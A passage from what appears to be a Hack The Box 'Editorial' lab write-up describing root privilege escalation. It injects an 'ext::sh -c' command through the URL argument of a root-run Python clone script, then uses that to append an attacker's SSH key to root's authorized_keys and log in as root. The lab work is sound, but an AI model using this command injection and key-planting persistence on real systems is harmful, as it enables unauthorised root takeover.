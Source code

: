 The `url: Pathlike` parameter doesn't impose any restrictions on the types of URLs that can be passed

Let's try to exploit this by create a simple text file

```bash
sudo -u root /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
```

![POC](/assets/images/HTB%20-%20Editorial/POC.png)

Great, we can write / read files as root. We could use this to simply read the root flag, but we can easily get a shell by generating an SSH key and placing the public key in root's authorized keys, effectively giving us SSH availability as root

```bash
ssh-keygen -t rsa -b 4096 -f pwned_key
```

Now append the public key to root's authorized keys.

```bash
sudo -u root /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /home/prod/pwned_key.pub% >>% /root/.ssh/authorized_keys'
```

Now let's ssh as root!

```bash
ssh -i /home/prod/pwned_key root@localhost
```

![root](/assets/images/HTB%20-%20Editorial/Root%20Editorial.png)
